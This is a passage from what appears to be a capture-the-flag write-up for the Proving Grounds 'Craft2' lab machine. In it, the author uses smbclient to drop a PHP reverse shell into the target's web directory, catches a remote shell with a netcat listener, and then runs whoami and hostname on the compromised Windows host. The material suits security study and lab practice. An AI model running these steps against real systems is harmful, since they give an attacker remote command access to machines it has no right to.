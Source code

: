 ![Image](Pasted%20image%2020240616105655.png)

I got the SMB access to that web file directory so I can directly insert the reverse shell file to get the reverse shell 🔻

![Image](Pasted%20image%2020240616110244.png)

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Craft2]
└─$ smbclient //192.168.182.188/WebApp -U thecybergeek
Password for [WORKGROUP\thecybergeek]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Apr  5 21:46:03 2022
  ..                                  D        0  Tue Apr  5 21:46:03 2022
  assets                              D        0  Tue Apr  5 21:46:03 2022
  css                                 D        0  Tue Apr  5 21:46:03 2022
  index.php                           A     9768  Mon Jan 31 21:51:52 2022
  js                                  D        0  Tue Apr  5 21:46:03 2022
  upload.php                          A      896  Mon Jan 31 20:53:02 2022
  uploads                             D        0  Tue Apr  5 21:46:03 2022

		10327807 blocks of size 4096. 1579321 blocks available
smb: \> put php_reverse_shell.php
putting file php_reverse_shell.php as \Report.wer (31.4 kb/s) (average 31.4 kb/s)
smb: \>
```
{: .nolineno}

Lets have a shell now 🔻

```powershell
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Practice/Craft2]
└─$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.214] from (UNKNOWN) [192.168.182.188] 49704
SOCKET: Shell has connected! PID: 4140
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs>whoami
craft2\apache

C:\xampp\htdocs>hostname
CRAFT2

C:\xampp\htdocs>whoami /all

USER INFORMATION
----------------

User Name     SID                                         
============= ============================================
craft2\apache S-1-5-21-537427935-490066102-1511301751-1000


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
```